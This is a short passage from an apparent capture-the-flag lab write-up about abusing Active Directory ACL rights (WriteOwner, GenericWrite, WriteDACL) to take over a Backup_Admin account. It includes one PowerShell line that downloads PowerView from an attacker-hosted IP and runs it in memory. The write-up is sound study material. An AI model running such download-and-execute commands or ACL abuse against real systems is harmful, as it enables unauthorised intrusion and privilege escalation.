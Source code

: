 
Now we know that Nico has write access to Herman.

Herman is having genric write and WriteDACL to Backup_Admin
![[Pasted image 20240514035852.png]]

If we search write owner in AD security (i.e. Scanning for Active Directory Privileges & Privileged Accounts) https://adsecurity.org/?p=3658

![[Pasted image 20240514040331.png]]

![[Pasted image 20240514040453.png]]

So in order to exploit this we have to load Power Viewer.
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20:80/PowerView.ps1")
```

Now the very 1st step is to take ownership from Herman to Nico




